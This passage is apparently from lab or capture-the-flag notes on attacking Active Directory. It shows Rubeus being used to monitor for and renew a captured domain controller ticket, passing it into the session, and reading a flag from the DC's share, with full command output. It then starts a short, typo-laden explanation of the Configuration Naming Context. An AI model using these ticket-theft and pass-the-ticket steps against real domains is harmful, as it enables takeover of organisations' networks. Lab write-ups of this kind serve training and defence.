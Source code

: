 
And once we have the ticket in the first shell about rubeus.exe monitor /interval:5 /nowrap


We go the TGT hash

```bash
PS C:\Tools> .\Rubeus.exe renew /ticket:doIFvDCCBbigAwIB<snip code> /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3

[*] Action: Renew Ticket

[*] Using domain controller: DC01.INLANEFREIGHT.AD (172.16.210.99)
[*] Building TGS-REQ renewal for: 'INLANEFREIGHT.AD\DC01$'
[+] TGT renewal request successful!
[*] base64(ticket.kirbi):

      doIFvDCCBbigAwIBBaEDAgEWooIEuDCCBLRhggSwMIIErKADAgEFoRIbEElOTEFORUZSRUlHSFQuQUSi
      JTAjoAMCAQKhHDAaGw<snip code>ORUZSRUlHSFQuQUQ=
[+] Ticket successfully imported!
# Here with the last message, we know that now we have the ability to get access
# over the services indicated in the question
PS C:\Tools> dir "\\DC01\UCD_flag\flag.txt"


    Directory: \\DC01\UCD_flag


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        3/14/2024   3:42 PM             32 flag.txt


PS C:\Tools> Get-Content "\\DC01\UCD_flag\flag.txt"
dc130415baf0dd46e6e7fe3f3d3c5d93
```

## Configuration Naming Context (NC)

Teh configuration Naming Context (NC) serves as the repository for the forest-wide configuration data in Active Directory, necessitating its replication
across te entire AD forest. The distinguisehd Name (DN) for this context is CN=Configuration,DC=inlanefreight,DC=ad, werhein DC=inlanefreight,DC=ad denotes
the DN of the forest root domain













